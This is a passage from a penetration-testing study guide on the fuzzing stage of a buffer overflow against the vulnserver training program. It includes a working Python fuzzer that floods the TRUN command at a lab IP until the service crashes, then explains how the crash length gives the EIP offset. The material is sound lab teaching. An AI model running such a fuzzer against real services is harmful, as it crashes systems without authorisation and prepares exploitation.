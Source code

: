 
# Fuzzing
> Keep vulnserver and Immunity Debugger running from [spiking](/nested-repos/PNPT-study-guide/PEH/buffer-overflows/spiking.md) section (run them with Admin privileges).

The difference between spiking and fuzzing is that in spiking we're *attacking multiple commands* in order to find vulnerable ones, and in fuzzing we're *attacking a single command* (which we know is vulnerable) in order to build an effective [buffer overflow](/nested-repos/PNPT-study-guide/PEH/buffer-overflows/buffer-overflow-basics.md).
## Python Script
```python
`#!/usr/bin/python
import sys, socket
from time import sleep

# Create the buffer of 'A' characters
buffer = "A" * 100

while True:
	try:
		# Build the payload by appending the TRUN command to the buffer
		payload = "TRUN /.:/" + buffer

		# Create, open, and connect to the socket (connecting to target)
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('192.168.1.35',9999))

		# Send the payload to target
		print ("[+] Sending the payload...\n" + str(len(buffer)))
		s.send(payload)
		
		# Close connection and what 1 second
		s.close()
		sleep(1)

		# (if we haven't crashed) increase buffer length by 100 bytes & try again
		buffer = buffer + "A"*100
	except:
		# When the target crashes, print the number of bytes it took
		print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
		sys.exit()`
```
In this script first we're creating a buffer of 100 `A` characters. Then, we're initiating a while loop in which our payload (the `TRUN` command + our `buffer`) is sent over the wire to the vulnerable program running at `192.168.1.35:9999`.

Each iteration of the while loop we send our payload, wait one second, then close the connection before finally increasing our buffer by 100 more `A` characters. When the program crashes, the `except` block will be triggered.

By putting all this in a `try...except`,  we're using the *crash of the vulnerable program* as a signal that we've successfully overwritten the instruction pointer (saved `EIP`), just like we did in the spiking step. 

The difference here is that when we crash we're *capturing the total amount of bytes (`A` characters)* we had to send *in order to crash the program*. The number of bytes will tell us *the offset from the `TRUN` command buffer on the stack to the saved`EIP`*.
### Why do we Need the Offset?
We need to know the offset between the vulnerable command on the stack `TRUN` and the saved `EIP` because our plan is to overwrite the *exact address of the saved `EIP`* with an address *we control*.

When compiled into a binary, the vulnerable program will *take up the same amount of addresses on the stack* on any (x86) machine it runs on as it does on our vulnerable machine right now. So the offset is static.

Once we know the offset, we can create our buffer overflow exploit using a payload of the same length as the offset. At the end of the payload, we place the address we want to send the CPU to. By the end, our payload will look something like this (replace `name` with `TRUN`):
![](/nested-repos/PNPT-study-guide/PNPT-pics/fuzzing-1.png)
> My [writeup on basic buffer overflow](https://trshpuppy.github.io/portfolio/writeups/basic-buffer-overflow)

## Running the Script
Once the script is finished, save it and remember to give it execution permissions using `chmod +x fuzz.py`. Make sure Immunity debugger is running w/ the vulnerable program attached and also running, then you can execute `fuzz.py`.

Once it crashes (around 2700 bytes) we can inspect the crash in Immunity:
![](/nested-repos/PNPT-study-guide/PNPT-pics/fuzzing-2.png)
We can see that the `EIP` wasn't overwritten, but that's okay. We're trusting that since the program crashed, the buffer length in bytes was long enough. So let's move on, working with *an offset around 3000 bytes*.

> [!Resources]
> -  [Vulnserver](https://thegreycorner.com/vulnserver.html) 
> - [Immunity Debugger](https://www.immunityinc.com/products/debugger/) 
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.
> - My [writeup on basic buffer overflow](https://trshpuppy.github.io/portfolio/writeups/basic-buffer-overflow)

